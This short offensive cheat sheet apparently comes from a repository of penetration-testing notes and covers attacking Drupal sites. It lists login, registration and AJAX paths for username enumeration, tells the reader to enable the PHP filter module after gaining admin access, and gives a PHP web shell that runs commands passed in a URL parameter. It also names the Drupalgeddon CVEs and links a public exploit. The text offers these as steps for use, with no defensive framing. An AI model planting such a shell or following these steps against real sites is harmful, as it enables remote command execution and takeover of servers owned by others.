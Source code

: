 # Drupal
Various issues such as exploits and auto registration and username enumeration.

```
/user/login
/user/register
/user/password
/q?=admin/views/ajax/autocomplete/user/e
/admin/by-module
```

If access is obtained, turn on php filter module from `Module`
and use the php code below:
```
<?php
$output=shell_exec($_GET['CMD']);
echo "<pre>$output</pre>"'
?>
```

You can also enable **Code Filter** module and adding a content (article).  Then inside the article you can add php code.

CVE
```
CVE-2018-7600 & CVE-2018-7602 - https://github.com/pimps/CVE-2018-7600
```
